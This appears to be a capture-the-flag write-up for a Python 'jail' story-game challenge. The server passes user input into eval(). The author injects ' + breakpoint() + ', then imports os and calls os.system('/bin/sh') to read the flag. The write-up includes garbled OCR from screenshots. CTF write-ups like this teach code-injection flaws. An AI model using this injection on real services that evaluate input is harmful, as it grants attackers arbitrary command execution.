 # Fairy Tale
> Type in your favorite hero and let Fairy Tale spin a unique story for you.

## About the Challenge
We got a server to connect without a source. Here is the preview of the challenge


[Image extracted text: Welcome
to
the
Enhanced Dynamic Story
Game !
Enter
your
hero
name
test
In
an
ancient kingdom,
test
must
rescue
Queen Mirabella
from
the
Ancient Dragon
After
long journey ,
test
and
Queen
Mirabella
outsmart
the villain,
restoring
harmony]


If we try to input `'`, we'll get an error message like this:


[Image extracted text: Enter
your
hero
name
Traceback
(most
recent
call
last) :
File
Tapp/jailgame.pY
line
50
in
<module>
dynamic_story_game_
v2 ( )
File
Iappljailgame
py
line
25
in dynamic_story_game_
hero_name
eval(f"nm|
{user_input} | '##") #hero_name
ast.literal_eval(fun
{user_input} | '
I M
^iiiimmmmmmimiiiiiiiiiiiii^^^
File "<string>"
line
CV2]


It seems like our input is being passed into the `ast.literal_eval()` function

## How to Solve?
To solve this chall, im calling `breakpoint()` function and then call `/bin/sh` by importing `os` package

```
' + breakpoint() + '
```


[Image extracted text: >
breakpoint ( )
TypeError:
can
concatenate
str
(not
'NoneType" )
to
str
<string> (1) <module>( )
(Pdb)
import
05
(Pdb)
05
system( " /bin/sh" )
1s
Dockerfile
README
IF
YOU
ARE
THE
ADMIN
jailgame.py
server
py
cat
ictf{b3_Clr3full_In_3rrOr5}
only
flag
flag]


```
ictf{b3_C4r3full_1n_3rr0r5}
```